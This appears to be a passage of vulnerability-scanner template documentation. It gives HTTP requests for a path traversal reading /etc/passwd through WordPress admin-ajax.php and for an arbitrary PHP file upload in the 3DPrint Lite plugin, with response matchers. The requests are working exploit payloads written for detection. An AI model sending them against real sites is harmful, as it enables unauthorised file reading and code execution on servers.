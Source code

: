### Step - 2

```
POST /wp-admin/admin-ajax.php?action=wprss_fetch_items_row_action HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

action=health-check-view-file-diff&file=../../../../../../etc/passwd

```

### Matchers

**Type - regex**

- part - body
- regex
  1. root:.\*:0:0:

**Type - word**

- part - header
- words
  1. application/json

**Type - status**

- status
  1. 200

---

# WordPress 3DPrint Lite \<1.9.1.5 - Arbitrary File Upload

## Description

- WordPress 3DPrint Lite plugin before 1.9.1.5 contains an arbitrary file upload vulnerability. The p3dlite_handle_upload AJAX action of the plugin does not have any authorization and does not check the uploaded file. An attacker can upload arbitrary files to the server, which in turn can be used to make the application execute file content as code, As a result, an attacker can possibly obtain sensitive information, modify data, and/or execute unauthorized operations.

- severity - high
- tags - wpscan,edb,wordpress,wp,wp-plugin,fileupload,intrusive,3dprint

## Requests

### Step - 1

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------54331109111293931601238262353

-----------------------------54331109111293931601238262353
Content-Disposition: form-data; name="action"

p3dlite_handle_upload
-----------------------------54331109111293931601238262353
Content-Disposition: form-data; name="file"; filename={{randstr}}.php
Content-Type: text/php

<?php echo '3DPrint-arbitrary-file-upload'; ?>
```